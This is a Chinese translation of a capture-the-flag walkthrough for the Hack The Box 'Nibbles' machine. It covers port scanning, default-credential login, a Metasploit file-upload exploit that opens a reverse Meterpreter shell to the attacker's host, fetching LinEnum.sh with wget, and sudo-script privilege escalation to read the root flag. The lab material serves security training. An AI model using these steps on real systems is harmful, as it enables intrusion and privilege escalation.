





# 黑盒子:啃写！

> 原文：<https://medium.datadriveninvestor.com/hack-the-box-nibbles-write-up-dfc90f77a734?source=collection_archive---------12----------------------->

[](http://www.track.datadriveninvestor.com/1B9E)

那么让我们使用 nmap 通过服务发现来执行 TCP SYN 扫描，以识别目标机器上的开放端口和网络服务。

```
**root@kali:~# nmap -sS -Pn -sV -T4 10.10.10.75
Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-15 23:14 +08
Nmap scan report for 10.10.10.75
Host is up (0.37s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE  VERSION
22/tcp open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  ssl/http Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1**
```

端口 80 和 22 在我们目标机器上是开放的。端口 80 是打开的。因此，让我们对目标机器进行 dirb 操作，以识别其他感兴趣的目录或页面。我们还可以使用 go-buster 进行暴力破解，并识别其他感兴趣的目录或页面。

```
**root@kali:~# dirb http://10.10.10.75
-----------------
DIRB v2.22    
By The Dark Raver
-----------------
START_TIME: Fri May 25 23:18:52 2018
URL_BASE: http://10.10.10.75/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612                                                          
---- Scanning URL: http://10.10.10.75/ ----
+ http://10.10.10.75/index.html (CODE:200|SIZE:93)                                                        
+ http://10.10.10.75/server-status (CODE:403|SIZE:299)**
```

计数结果没什么有用的。

现在我们试着手动列举网站。



检查源代码，我们可以找到一个目录。



在检查 10.10.10.75/nibbleblog 时，我们看到了博客主页。



现在让我们再次运行 dirb 来找出任何感兴趣的目录

这里我们得到了/nibbleblog/admin.php 页面。



现在让我们把它改成默认的黑盒子密码，然后我们得到的**用户名**为“**管理员**”，**密码**为“**啃**”。



使用 searchploit，我可以找到一个任意文件上传漏洞。

```
**root@kali:~# searchsploit nibbleblog
------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                 |  Path
                                                                               | (/usr/share/exploitdb/)
------------------------------------------------------------------------------- ----------------------------------------
Nibbleblog - Arbitrary File Upload (Metasploit)                                | exploits/php/remote/38489.rb
Nibbleblog - Multiple SQL Injections                                           | exploits/php/webapps/35865.txt
------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result**
```

现在让我们尝试使用 metasploit 来利用这个漏洞。

```
**msf > search nibbleblog

Matching Modules
================

   Name                                       Disclosure Date  Rank       Description
   ----                                       ---------------  ----       -----------
   exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Nibbleblog File Upload Vulnerability**
```

现在让我们加载漏洞

```
**msf > use exploit/multi/http/nibbleblog_file_upload

msf exploit(multi/http/nibbleblog_file_upload) > show options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host

   Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3

msf exploit(multi/http/nibbleblog_file_upload) > set rhost 10.10.10.75
rhost => 10.10.10.75

msf exploit(multi/http/nibbleblog_file_upload) > set username admin
username => admin

msf exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles

msf exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog
targeturi => /nibbleblog

msf exploit(multi/http/nibbleblog_file_upload) > show payloads

Compatible Payloads
===================

   Name                                Disclosure Date  Rank    Description
   ----                                ---------------  ----    -----------
   generic/custom                                       normal  Custom Payload
   generic/shell_bind_tcp                               normal  Generic Command Shell, Bind TCP Inline
   generic/shell_reverse_tcp                            normal  Generic Command Shell, Reverse TCP Inline
   php/bind_perl                                        normal  PHP Command Shell, Bind TCP (via Perl)
   php/bind_perl_ipv6                                   normal  PHP Command Shell, Bind TCP (via perl) IPv6
   php/bind_php                                         normal  PHP Command Shell, Bind TCP (via PHP)
   php/bind_php_ipv6                                    normal  PHP Command Shell, Bind TCP (via php) IPv6
   php/download_exec                                    normal  PHP Executable Download and Execute
   php/exec                                             normal  PHP Execute Command 
   php/meterpreter/bind_tcp                             normal  PHP Meterpreter, Bind TCP Stager
   php/meterpreter/bind_tcp_ipv6                        normal  PHP Meterpreter, Bind TCP Stager IPv6
   php/meterpreter/bind_tcp_ipv6_uuid                   normal  PHP Meterpreter, Bind TCP Stager IPv6 with UUID Support
   php/meterpreter/bind_tcp_uuid                        normal  PHP Meterpreter, Bind TCP Stager with UUID Support
   php/meterpreter/reverse_tcp                          normal  PHP Meterpreter, PHP Reverse TCP Stager
   php/meterpreter/reverse_tcp_uuid                     normal  PHP Meterpreter, PHP Reverse TCP Stager
   php/meterpreter_reverse_tcp                          normal  PHP Meterpreter, Reverse TCP Inline
   php/reverse_perl                                     normal  PHP Command, Double Reverse TCP Connection (via Perl)
   php/reverse_php                                      normal  PHP Command Shell, Reverse TCP (via PHP)

msf exploit(multi/http/nibbleblog_file_upload) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp

msf exploit(multi/http/nibbleblog_file_upload) > show options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      10.10.10.75      yes       The target address
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /nibbleblog      yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3

msf exploit(multi/http/nibbleblog_file_upload) > set lhost 10.10.15.47
lhost => 10.10.15.47**
```

现在让我们运行利用程序

```
**msf exploit(multi/http/nibbleblog_file_upload) > exploit

[*] Started reverse TCP handler on 10.10.15.47:4444 
[*] Sending stage (37775 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.15.47:4444 -> 10.10.10.75:59252) at 2018-06-06 18:49:32 +0530
[+] Deleted image.php

meterpreter >**
```

现在我们有了 meterpreter 会话，我们是用户

```
**meterpreter > cd nibbler
meterpreter > ls
Listing: /home/nibbler
======================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100600/rw-------  0      fil   2017-12-29 16:00:07 +0530  .bash_history
40755/rwxr-xr-x   4096   dir   2018-06-06 18:53:00 +0530  .git
40775/rwxrwxr-x   4096   dir   2017-12-11 08:34:04 +0530  .nano
100644/rw-r--r--  1363   fil   2018-06-06 18:51:34 +0530  README.md
100755/rwxr-xr-x  14392  fil   2018-06-06 18:47:25 +0530  dc
100644/rw-r--r--  4963   fil   2018-06-06 18:46:47 +0530  dc.c
40755/rwxr-xr-x   4096   dir   2018-06-06 18:51:38 +0530  doc
40755/rwxr-xr-x   4096   dir   2018-06-06 18:51:52 +0530  lib
40755/rwxr-xr-x   4096   dir   2018-06-06 18:48:29 +0530  personal
100400/r--------  1855   fil   2017-12-29 16:24:29 +0530  personal.zip
40755/rwxr-xr-x   4096   dir   2018-06-06 18:51:40 +0530  tools
100644/rw-r--r--  3404   fil   2018-06-06 18:51:39 +0530  upc.sh
100400/r--------  33     fil   2017-12-29 16:13:54 +0530  user.txt

meterpreter > cat user.txt**
```

于是我们得到了“ **user.txt** ”

在 meterpreter 会话中获得了一个有限的 shell

```
**meterpreter > shell
Process 122906 created.
Channel 0 created.
ls
README.md
dc
dc.c
doc
files_cache.2177
lib
personal
personal.zip
privileged_cache.2177
tools
upc.sh
user.txt**
```

让我们试着从“ [**网络安全列表**](https://netsec.ws/?p=337) ”中生成一个 **TTY 外壳**。

```
**python3 -c 'import pty;pty.spawn("/bin/bash")'
nibbler@Nibbles:/home/nibbler/personal/stuff$**
```

接下来，我们尝试将 **LinEnum.sh** 文件放入我们的机器，首先我将在本地机器文件夹中运行一个 php 服务器。

```
**root@kali:~/Desktop/PrivEscalation Enum# php -S 10.10.15.47:444
PHP 7.2.4-1 Development Server started at Wed Jun  6 18:59:11 2018
Listening on http://10.10.15.47:444
Document root is /root/Desktop/PrivEscalation Enum
Press Ctrl-C to quit.
[Wed Jun  6 19:00:04 2018] 10.10.10.75:35560 [200]: /LinEnum.sh**
```

让我们尝试使用 wget 将文件传输到我们的机器上

```
**nibbler@Nibbles:/home/nibbler/personal/stuff$ wget http://10.10.15.47:444/LinEnum.sh -O /tmp/Linenum.sh
<er/personal/stuff$ wget http://10.10.15.47:444/LinEnum.sh -O /tmp/Linenum.sh
--2018-06-06 10:14:59--  http://10.10.15.47:444/LinEnum.sh
Connecting to 10.10.15.47:444... connected.
HTTP request sent, awaiting response... 200 OK
Length: 42150 (41K) [application/x-sh]
Saving to: '/tmp/Linenum.sh'

/tmp/Linenum.sh     100%[===================>]  41.16K  43.8KB/s    in 0.9s**
```

所以我们把文件放进我们的机器里

```
**nibbler@Nibbles:/tmp$ chmod 777 Linenum.sh
nibbler@Nibbles:/tmp$ sh ./Linenum.sh**
```

在运行 Linux enum 时，我们得到了以下结果

```
**User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh**
```

因此，让我们试着光盘到该文件夹，看看

```
**nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
nibbler@Nibbles:/home/nibbler/personal/stuff$ monitor.sh**
```

现在让我们更改 monitor.sh 中的内容，并尝试以 root 用户身份运行它

```
**nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "cat /root/root.txt" > monitor.sh 
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat /root/root.txt

nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -u root ./monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b6d745c0dfb6457c55591efc898ef88c**
```

这就完成了，我们终于得到了“ **root.txt** ”。